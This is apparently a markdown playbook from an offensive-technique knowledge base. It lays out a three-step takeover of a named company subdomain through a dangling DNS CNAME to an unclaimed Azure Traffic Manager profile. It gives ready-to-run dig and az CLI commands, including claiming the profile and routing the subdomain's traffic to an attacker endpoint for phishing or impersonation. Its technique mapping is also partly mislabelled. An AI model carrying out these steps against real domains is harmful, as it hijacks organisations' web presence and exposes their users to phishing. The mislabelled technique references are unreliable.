

---
tags:
  - subdomain-takeover
  - dns
  - azure
  - cname
  - dangling-records
  - cloud-hijacking
type: attack_chain
tools:
  - '[[tools/Azure-CLI]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Azure
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Dangling-Subdomain-DNS-Records]]'
  - '[[procedures/Verify-Unclaimed-Azure-Traffic-Manager-Profile]]'
  - '[[procedures/Claim-Azure-Traffic-Manager-Profile-for-Subdomain-Takeover]]'
step_count: 3
techniques:
  - '[[Hardware]]'
  - '[[Acquire Infrastructure]]'
updated_at: '2025-12-14T04:38:49.827Z'
description: >-
  A multi-step attack exploiting a dangling DNS CNAME record pointing to an
  unclaimed Azure Traffic Manager profile, allowing control over a subdomain
  like mydailydev.starbucks.com for potential phishing or impersonation.
skill_level: intermediate
impact_level: high
id: 0f9e2ea2-3e9d-46aa-9a55-8ef564cf122b
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Hardware]]'
  - '[[Acquire Infrastructure]]'
---
# Subdomain Takeover via Dangling CNAME to Unclaimed Azure Traffic Manager

Multi-stage attack chain demonstrating a subdomain takeover by exploiting a dangling DNS CNAME record pointing to an unclaimed Azure Traffic Manager profile. This allows an attacker to claim control of the cloud resource and redirect traffic from the victim's subdomain, such as mydailydev.starbucks.com, to malicious content, enabling phishing, brand impersonation, or further attacks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Azure-CLI]]
- DNS resolution tools like dig (part of BIND utilities)

### Target Environment

- Web platform with DNS records
- Azure cloud services, specifically Traffic Manager
- Access to public DNS queries

### Initial Access Requirements

- No prior credentials needed for reconnaissance
- An active Azure subscription to claim the resource
- Network access to query DNS and Azure APIs

## Detailed Attack Procedures

### Step 1: Identify Dangling Subdomain DNS Records
procedure: [[procedures/Identify-Dangling-Subdomain-DNS-Records]]

**Objective**: Discover subdomains with DNS records pointing to potentially unclaimed cloud resources, such as a CNAME to an Azure Traffic Manager endpoint.

**Instructions**: Start by enumerating subdomains of the target domain using tools like subfinder or manual checks, then query DNS for CNAME records pointing to cloud services.

Use [[commands/dig-lookup-cname]] to check the DNS record:

```bash
dig mydailydev.starbucks.com CNAME
```

This reveals if the subdomain points to an Azure Traffic Manager profile like xxxx.trafficmanager.net.

**Expected Output**: A CNAME record response showing the target cloud endpoint, e.g., "mydailydev.starbucks.com. 3600 IN CNAME mydailydev.trafficmanager.net."

**Success Indicators**:
- CNAME record points to a cloud service like Azure Traffic Manager
- No active resolution to a live service

### Step 2: Verify Unclaimed Azure Traffic Manager Profile
procedure: [[procedures/Verify-Unclaimed-Azure-Traffic-Manager-Profile]]

**Objective**: Confirm that the Azure Traffic Manager profile referenced in the CNAME is abandoned and available for claiming.

**Instructions**: Use the Azure portal or CLI to check for the existence of the profile by its unique DNS name. If it returns no resource or allows creation, it's unclaimed.

Attempt to list profiles with a matching name using [[commands/az-traffic-manager-list]] (note: may require scripting to check specific names):

```bash
az network traffic-manager profile list --query "[?dnsConfig.uniqueDnsName=='mydailydev.trafficmanager.net']"
```

Alternatively, browse the Azure portal and search for the profile name under Traffic Manager resources.

**Expected Output**: No matching profile found, or an error indicating the name is available.

**Success Indicators**:
- Resource does not exist in any subscription
- Name is claimable via creation API

### Step 3: Claim Azure Traffic Manager Profile for Subdomain Takeover
procedure: [[procedures/Claim-Azure-Traffic-Manager-Profile-for-Subdomain-Takeover]]

**Objective**: Register and configure the Azure Traffic Manager profile to gain control over the subdomain's traffic routing.

**Instructions**: With an Azure subscription, create the Traffic Manager profile using the exact name from the CNAME. Once created, update endpoints to point to attacker-controlled servers.

Execute [[commands/az-traffic-manager-create]] to claim it:

```bash
az network traffic-manager profile create --resource-group myRG --name mydailydev --routing-method Performance --unique-dns-name mydailydev.trafficmanager.net
```

Then add an external endpoint pointing to a malicious server:

```bash
az network traffic-manager endpoint create --resource-group myRG --profile-name mydailydev --name maliciousEndpoint --type externalEndpoints --target malicious.example.com
```

**Expected Output**: Successful creation confirmation, and DNS now resolves to the new profile under attacker control.

**Success Indicators**:
- Profile created successfully
- Subdomain traffic now routes through the claimed profile
- Verification via dig shows resolution to attacker endpoints

## Attack Chain Summary

### Key Achievements

1. Identified a dangling CNAME record exposing the subdomain to takeover
2. Verified the Azure resource was unclaimed, confirming exploitability
3. Claimed the resource to hijack subdomain control, enabling malicious redirects or phishing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Hardware]] Gather Victim Host Information: Domain Name
- [[Acquire Infrastructure]] Acquire Infrastructure

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
